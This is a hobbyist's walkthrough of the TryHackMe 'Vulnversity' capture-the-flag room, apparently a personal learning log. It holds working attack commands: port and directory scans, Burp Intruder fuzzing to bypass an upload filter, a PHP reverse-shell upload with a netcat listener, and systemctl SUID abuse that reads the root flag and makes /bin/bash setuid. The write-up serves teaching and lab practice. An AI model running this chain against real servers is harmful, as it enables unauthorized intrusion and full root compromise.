


<a href="https://tryhackme.com/room/vulnversity"></a>

# vulnversity

## nmap
```
nmap -sC -sV <ip>

Port 21 ftp
Port 22 ssh
Port 139 Samba
Port 445 Samba
Port 3128 Squid
Port 3333 http
```
With nmap, I use the **-sC** to enable the default list of scripts and the **-sV** for version identification. If we now check out the website, remembering to view from port 3333 for http, we find what appears to be a school/collage or university type website. There doesn't appear to anything of interest on the site, with all links going back to homepage and a quick look at the page source doesn't give any hints that I can see either, focusing on the html comments.

## gobuster
```
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
/css
/font
/images
/index.html
/internal # provides upload facility with files stored held at /internal/uploads
/js
/server-status

```
Settings for gobuster include **dir** for directory search, -u for the URL and -w for the wordlist. After an initial run using directory-list-2.3-medium,txt we find an /internal directory with a page that allows you to upload files. Running gobuster again, against this directory, provides us with the location that those files are stored.

No harm in trying a specific file and type first. I have been doing these rooms as part of my ongoing love of CTF as a hobby for about two months now and have picked up some reverse scripts, which I keep stored in the Zim Desktop Wiki, that has become my document/snippet solution of choice for these types of games.

I tried the php-reverse-shell.php (by pentestmonkey) in the off chance it would work, but that came back as "Extension not allowed." Next, having become familiar with the Burp Suite room, I decided to run that next.

## burp suite
If you have not completed the Burpe Suite (BS) room, it is recommended that you do so. Based on the Community Edition and readily available as either a software download or indeed built into an application on Kali. A very useful tool indeed. 

One of the pre-requisites is that your browser is set to use the local host proxy. This can be simplified by using a Firefox extension: Foxy Proxy. Set up details for this can easily be found on the internet and on the BS site.

I currently use Firefox as after some time doing these CTFs, the general advice was that it is preffered, though I am sure there are other browsers you may want to use. As we have already tried to upload a file, let us do it again, this time with BS capturing the results.

Switch on Foxy Proxy and start BS. You may be prompted to update, this is your choice but the window can just be closed. Now we have the options to start a temporary project (actually the only one you can select unless you have the pro version). Continue and ensure **Use Burp defaults** is ticked and then hit **Start Burp**. This takes us to the main window.
<br>
<br>

<br>
<br>

Now click on the Proxy tab, and verify that the **Intercept is on** is selected.
Next from the Firefox browser, <IP>:3333/internal/ site, upload a file. BS will open and you will see that it has captured the information from the host to the server. If you have a look round you should be able to see your file name in the Content-Disposition:
<br>
<br>

<br>
<br>

Lets use that information to use one of the other BS tools - Intruder. Right click anywhere in the within this Proxy/Intercept/Raw field and **Send to Intruder**

The Intruder tab next to Proxy now highlights. Click on this.
<br>
<br>

<br>
<br>

We now see 4 new tabs. We will cover them individually.

1. Target. This is automatically generated and should be the target computer.
<br>
<br>

<br>
<br>
2. Positions. This will have automatically selected the complete filename we tried to enter on the website. We need to change this slightly as we just want to test the actual extensions.
<br>
<br>

<br>
<br>
Click the **Clear** button on the side menu. Then highlight file extension and delete the decimal point.
<br>
<br>

<br>
<br>
What this is doing is selecting the area that BS will update each time it tries to upload a file. The filename stays the same, only the extension changes. The reason we remove the decimal point is that in the payload file that we will be using: each extension already has the point in place. Finally ensure that the Attack type is **Sniper**
3. Payloads. We keep the Payload Set as 1 and Type as a Simple List. Now load the options file, which could be the file you created as part of the video tutorial containing five file types.
<br>
<br>

<br>
<br>
In this case I will use the extensions-common-list.txt. Last thing to do in this tab is to untick Payload Encoding otherwise it will change the decimal point to an encoded character which will fail each attempt.
4. Options. Finally I leave these to the default settings.
<br>
<br>

<br>
<br>
Now we are ready, we just need to disable Foxy Proxy, go to the Proxy tab, and ensure that **Intercept is off**
Go back to Intruder and use the **Start Attack** button, top right of the screen.
A demo warning pops up highlighting some functionality is disabled. Just hit **OK**
5.Once the attack is completed we see a **Results** tab. 
<br>
<br>

<br>
<br>
The trick here is to look at the length of the return file, where you can filter on size. You will then notice that one file stands out. We now know what extension our payload needs to be uploaded as. We can now amend our file accordingly.

## reverse shell
We will use the pentestmonkey reverse shell ensuring that as well as changing the extention to .phtml, that we update the IP address and Port of the attackers machine, in preperation for the netcat command.
```
nc -lnvp 9001
````
We now upload the file php-reverse-shell.?  directly to the _/internal/upload_ folder and run it from the browser by clicking or by using a curl command.
```
curl http://<IP>:3333/internal/uploads/php-reverse-shell.?
```
<br>
<br>

<br>
<br>

This now gives us access to a reverse shell.
<br>
<br>

<br>
<br>
We can create a more interactive shell by:
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Lets search for the user flag. Simple enough to find. Check out /home for users, where we find Bill. Check his folder structure and we find the user.txt.
```
www-data@vulnuniversity:/$ cd home
cd home
www-data@vulnuniversity:/home$ ls
ls
bill
www-data@vulnuniversity:/home$ cd bill
cd bill
www-data@vulnuniversity:/home/bill$ ls
ls
user.txt
www-data@vulnuniversity:/home/bill$ cat user.txt
```
## privilage escalation
First we try to access a list of sudo permissions by sudo -l. 

```
$ sudo -l                                                                         │
sudo: no tty present and no askpass program specified```
```
No luck here, but we also don't know the password for Bill, so let us look at SUID bit escalation:
```
find / -perm -4000 2>/dev/null
```
Look through the files to see if something is unusual or stands out. I normally check this against my own host. In this case it is unusual to find /bin/systemctl. 

Using GTFObins we can see that there are two options for systemctl as SUID and sudo. 

If we look at the code, in this case the "id" can be amended to be one of two things. As we know from the question the location of the root flag, we could use that as the first attempt. Second is the availability of a root bash shell, discussed below.
```
TF=$(mktemp).service
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
If you would like to get a better understanding of the code, then [Wuggles](https://unicornsec.com/home/tryhackme-vulnversity) is an interesting read.

Then just read the root flag file:
```
cat /tmp/output
```
As mentioned above, we can also escalate to a bash shell with a slight change of "id". This is done by additing the SUID bit to /bin/bash.
```
eop=$(mktemp).service
echo '[Service]

ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $eop

/bin/systemctl link $eop

/bin/systemctl enable --now $eop
```
This changes the SUID of bash to allow us to use as root. We simply:
```
bash -p
````
And now we have root permissions in the shell. Again use to read the flag file.

I really enjoyed this room and completing a write up. Hopefully I will become more proficient at both!!

Regards

K


